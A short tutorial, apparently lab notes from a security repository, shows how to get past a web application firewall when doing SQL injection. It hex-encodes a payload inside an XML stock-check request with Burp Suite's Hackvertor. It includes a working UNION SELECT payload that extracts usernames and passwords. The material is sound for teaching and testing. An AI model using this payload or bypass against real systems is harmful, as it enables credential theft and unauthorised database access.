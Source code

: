 # SQL injection with filter bypass via XML encoding

Some websites take input in JSON or XML format and use this to query the database. These different formats may provide different ways for you to obfuscate attacks that are otherwise blocked due to WAFs and other defense mechanisms.

## Hackvertor

Download hackvertor through burpsuite to encode XML.


Let supose this XML sending in POST method:

```XML
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
    <storeId>
            1 
    </storeId>
</stockCheck>
```

Store id is vulnerable to SQL injection but when we write SQL code inside, it is detected.

Select 1 -> right click -> extension -> Hackvertor -> encode -> hex_entities

- It will spwan a <@hex_entities><@/hex_entities> which will encode giving char to hex_entities to bypass filter:

```XML
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
    <storeId>
        <@hex_entities>
            1 UNION SELECT username||'~'||password FROM users
        <@/hex_entities>
    </storeId>
</stockCheck>
```

---

[**:arrow_right_hook: Back home**](/README.md)